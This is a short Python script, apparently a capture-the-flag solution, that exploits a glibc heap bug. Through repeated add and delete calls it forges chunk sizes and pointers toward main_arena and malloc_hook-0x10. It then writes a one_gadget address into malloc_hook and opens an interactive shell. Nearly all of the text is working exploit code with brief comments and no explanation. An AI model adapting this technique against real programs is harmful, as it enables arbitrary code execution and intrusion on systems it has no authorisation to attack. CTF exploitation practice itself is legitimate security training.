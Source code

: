 ```python
#make the fake fd ptr point to malloc_hook-0x10
#global_max insert into smallbin

add(0xb0,'a\n')#4
#now top chunk is mlh4

#now malloc_hook-0x10 inserted into fastbin
delete(2)
#re edit
add(0x2a0,'a'*0x108+p64(0xf1)+'a'*0xe8+p64(0x61)+'\n')#2
# enlarge the fake chunk
delete(4)
#change 4 size to f0
#f->4->mlh-0x10
delete(2)
#reedit
add(0x2a0,'a'*0x108+p64(0xf1)+p64(main_arena+0x58)+'a'*0xe0+p64(0x61)+'\n')#2
#fake fd point to unsorted bin
add(0xe0,'a\n')#4
#f->mlh-10
delete(2)
#reedit
add(0x2a0,'a'*0x108+p64(0xe1)+p64(main_arena+0x58)+'a'*0xd0+p64(0x71)+'\n')#2
#shrink 4's size, 
add(0xd0,'ZZZZZZZZ\n')#5
#4 is used

add(0x80,p64(one_gadget)+'\n')

gdb.attach(p)
delete(4)
#gdb.attach(p)
delete(5)
#gdb.attach(p)
raw_input()
p.interactive()
```

